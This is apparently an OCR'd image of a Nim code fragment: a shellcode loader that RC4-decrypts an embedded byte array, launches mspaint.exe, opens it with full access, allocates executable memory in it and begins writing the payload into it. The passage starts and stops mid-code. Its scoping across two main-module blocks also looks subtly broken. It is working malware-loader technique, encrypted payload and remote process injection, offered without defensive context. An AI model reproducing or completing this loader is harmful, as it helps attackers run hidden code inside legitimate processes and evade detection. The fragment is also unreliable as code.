 ```nim
    j = (j + int(s[i])) mod 256
    swap(s[i], s[j.byte])
    result[k] = s[(int(s[i]) + int(s[j])) mod 256]

proc RC4(plaintext: seq[byte], key: seq[byte]): seq[byte] =
  let messageL = len(plaintext)
  var s = newSeq[byte](256) 
  KSA(s, key)
  let keystream = PRGA(s, messageL)

  result = newSeq[byte](messageL)
  for i in 0 ..< messageL:
    result[i] = plaintext[i] xor keystream[i]

when isMainModule:
  let plaintext: seq[byte] = @[
    byte 0x61, 0x03, 0xDF, 0x4C, 0xE0, 0x8E, 0xFF, 0x5F, 0xB2, 0x7F, 0x28, 0x22, 0xE9,
    0x3B, 0x1A, 0x09, 0xB6, 0x66, 0x78, 0xCD, 0xAD, 0x67, 0xE1, 0x18, 0x82, 0x91,
    0x83, 0x1C, 0xE9, 0x9D, 0x09, 0x80, 0xFB, 0x0F, 0xD7, 0x3A, 0x06, 0xB2, 0xF2, 
    0x6B, 0x0C, 0xA4, 0x93, 0x29, 0xBE, 0x3D, 0x73, 0x78, 0xEE, 0xD5, 0x6B, 0xB7, 
    0xB5, 0x5B, 0x98, 0xF0, 0x8E, 0x61, 0xD3, 0x3F, 0x2B, 0xEB, 0x06, 0xA2, 0x9B, 
    0xE5, 0xDA, 0xED, 0x0C, 0xF1, 0xF4, 0x64, 0x82, 0x8B, 0x96, 0xD0, 0x71, 0x9A, 
    0xCB, 0x59, 0x41, 0x7C, 0x52, 0x06, 0x4D, 0xC7, 0x00, 0xEC, 0x80, 0xDD, 0xDF, 
    0x37, 0x4D, 0x3C, 0x25, 0x82, 0xB4, 0x37, 0xE6, 0x25, 0x75, 0xDC, 0xBE, 0xF0, 
    0x1E, 0xD1, 0x1A, 0xDE, 0x2D, 0xB8, 0xA2, 0xA1, 0x6B, 0x7D, 0x0F, 0xC0, 0xC0, 
    0x66, 0x4A, 0x9E, 0x9A, 0x9A, 0x93, 0x6B, 0xA4, 0x63, 0x51, 0xA0, 0x91, 0xB0, 
    0x99, 0x21, 0xDC, 0xDB, 0x41, 0xF7, 0xCC, 0xB8, 0xD5, 0x4B, 0xFF, 0xA2, 0x58, 
    0xA8, 0xEF, 0xE3, 0x90, 0x50, 0x3C, 0x03, 0x30, 0x42, 0x3C, 0x1B, 0x5F, 0x9C, 
    0x8F, 0xF2, 0xC7, 0x19, 0xA5, 0x07, 0x3E, 0x1C, 0x70, 0x6E, 0x80, 0xDA, 0x23, 
    0x37, 0x51, 0x98, 0x7D, 0xBE, 0x55, 0xF9, 0x56, 0x52, 0x0E, 0x48, 0x40, 0x2D, 
    0x9A, 0xD3, 0x0F, 0xB8, 0x92, 0x62, 0xE7, 0x5C, 0x0A, 0x2E, 0xFE, 0xF8, 0x96, 
    0x8E, 0x10, 0x6A, 0x04, 0x0B, 0xDD, 0x24, 0xCB, 0x18, 0x20, 0x9E, 0x23, 0x9A, 
    0x57, 0xC1, 0x38, 0xC0, 0xD7, 0x0A, 0x57, 0x3E, 0x80, 0x75, 0x9B, 0x79, 0x59, 
    0xB6, 0x31, 0xE4, 0x3E, 0xBA, 0xBB, 0x1E, 0x91, 0xC5, 0x10, 0xA0, 0x63, 0x6B, 
    0x99, 0x9F, 0x61, 0x6C, 0xB5, 0x1A, 0x09, 0x61, 0xFD, 0x21, 0xCC, 0x64, 0xC4, 
    0x9C, 0xCA, 0x15, 0xA1, 0x3B, 0x62, 0x44, 0x5B, 0x34, 0xDC, 0x06, 0xEB, 0x8F, 
    0xB1, 0x50, 0x7B, 0x1C, 0x77, 0xC7, 0x8B, 0x24, 0x34, 0x5E, 0xC4, 0x02, 0x00, 
    0x3F, 0x1D, 0x05, 0x2E, 0x18, 0xC5, 0xEA, 0x6D, 0x6F
    ]
  let key: seq[byte] = @[0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77]

  let payload = RC4(plaintext, key)

  let process = startProcess("mspaint.exe")
  echo "started  process: ", process.processID

  let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
  )

when isMainModule:
    let mem = VirtualAllocEx(
        ph,
        NULL,
        cast[SIZE_T](plaintext.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
```